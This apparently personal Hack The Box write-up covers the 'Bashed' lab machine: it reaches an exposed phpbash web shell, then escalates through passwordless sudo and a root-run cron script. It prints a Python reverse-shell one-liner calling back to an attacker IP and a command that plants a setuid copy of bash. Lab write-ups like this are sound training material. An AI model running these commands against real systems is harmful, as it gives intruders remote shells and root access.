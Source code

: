 # 1.0 - HACK THE BOX: BASHED

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/026729e2-83a0-443d-a421-c2c83d2bd744)

**Vulnerability Explanation**: The web server has unintentionally exposed a php script in the /dev/ web directory that allows an unauthenticated user to remotely execute bash commands. Furthermore, the www-data user can run commands as the 'scriptmanager' user without needing a password which created a path for privilege escalation to that user and then to the 'root' user via a misconfigured cron job. 

**Vulnerability Fix**: Restrict access to the /dev/ web directory and remove the phpbash.php script. Additionally, require a password when performing sudo commands as the www-data user. 

**Severity**: Critical.

**Steps to reproduce the attack**: Enumeration was undertaken using NMAP which discovered the web server running on port 80. Web directories were then scanned using dirbuster which exposed the /dev/ directory and the .php scripts; navigating to this on a browser results in a web shell. Privilege escalation was then performed by taking advantage of the NOPASSWD value set for sudo commands on the www-data user by moving to the scriptmanager user shell. Escalation to the root user was then performed by editing a script to copy the /bin/bash binary to a new location with the setuid bit set.

## 2.0 - ENUMERATION
| **IP ADDRESS** | **OPEN PORTS** |
|----------|--------------------|
| 10.10.10.68 | TCP: 80 |

#### **2.1 - NMAP**

A port scan was undertaken using NMAP, in which port 80 was discovered: 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7fce3128-5737-4b70-814e-04687c2fcc44)

#### **2.2 - nikto**

A vulnerability scan was performed using nikto which flagged a number of interesting directories including other issues which were not explored during this test. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d5e3d5a4-9258-4e91-89f0-da1272b204e1)

#### **2.3 - dirbuster** 

With the nikto scan in mind, a dirbuster scan was performed to brute-force web directories which exposed the phpbash.php web shell script. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/b6691ce0-57ad-46d1-8118-36b82e586362)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/2401dd5f-e8b1-40fc-a17d-83af0ef68d10)


## 3.0 - EXPLOITATION

#### **3.1 - Accessing the Web Shell**

Exploitation was simple, by navigating to the /dev/phpbash.php web directory we could get web shell as the www-data user. From here we have full access to the web server. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d0abe153-d486-49d6-87a5-b2e604702ba5)

## 4.0 - PRIVILEGE ESCALATION 

#### **4.1 - sudo -l**

As the www-data user when performing the sudo -l command we can see that commands can be run as the 'scriptmanager' user without the need for a password. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/9564681b-0d11-40ce-8122-5749605bd2a1)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/34411839-1474-4a87-ab6e-11a972f1b889)

#### **4.2 - reverse shell**

Because we can run commands as scriptmanager a reverse shell was created using python which allowed our first privilege escalation to the scriptmanager user itself. 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.0",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Catching the reverse shell and checking the user id we can see it was successful:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/6ee34a27-8da2-4132-ba2b-9d16912b551c)

#### 4.3 - escalation to root**

As the scriptmanager user we navigate to the root directory and see a directory called 'scripts'. Inside this directory is a simple python script called test.py and a text file. The python script writes a message to the test.txt file which is owned by root. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7104dc83-e23a-4851-b26f-a852d52f25fb)

The test.py script was edited to import the python 'os' module and the following line of code was added:

```python
os.system('cp /bin/bash /tmp/willthiswork; chmod +s /tmp/willthiswork')
```

This copies the /bin/bash binary to the /tmp/willthiswork location and sets the setuid bit on and when this new binary is executed with the -p flag it will run with the permission of the owner (root) and would not reset the effective user id, as displayed below:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/4bf461fc-1beb-4905-a2a1-953b9c025965)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/8e7724be-5630-46f4-a384-cea50036228c)

## 5.0 - POST-EXPLOITATION 

Lessons learned: 
- Discovery of the web shell was fairly quick but I need to explore further on how similar scripts can be exploited as my knowledge in this area is limited. 

